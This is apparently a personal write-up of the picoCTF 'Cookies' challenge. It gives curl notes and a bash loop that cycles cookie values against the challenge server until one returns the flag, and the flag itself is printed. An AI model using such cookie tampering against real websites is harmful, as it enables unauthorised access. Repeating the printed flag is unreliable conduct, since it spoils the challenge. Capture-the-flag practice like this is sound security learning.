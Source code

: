 
Notes:
```
CURL -s (silent)
CURL -I (get only headers)
CURL -i (include)
CURL -L (makes redirections)
CURL -H sends aditional headers


GREP -q (-q, --quiet, --silent)
```

Testing the cookie from the server
```
curl -s http://mercury.picoctf.net:21485/ -I | greep Cookie Set-Cookie: name=-1; Path=/
```
Changing the name of the cookie 
```
curl -s http://mercury.picoctf.net:21485/ -H "Cookie: name=0;" -L | grep -i Cookie
```
Response
```
 <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>

```


This bash code with curl can retrieve the answer.
```
for i in {1..20}; do
for> contents=$(curl -s http://mercury.picoctf.net:21485/ -H "Cookie: name=$i; Path=/" -L)
for> if ! echo "$contents" | grep -q "Not very special"; then
for then> echo "Cookie #$i is special" 
for then> echo $contents | grep "pico" 
for then> break        
for then> fi                                                        
for> done        
Cookie #18 is special
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>


```



I can do it changing the cookie with burpsuit,using the intruder and  attack . Finally watching the responses one by one.

![[Screenshot_2023-09-23_11_11_36.png]]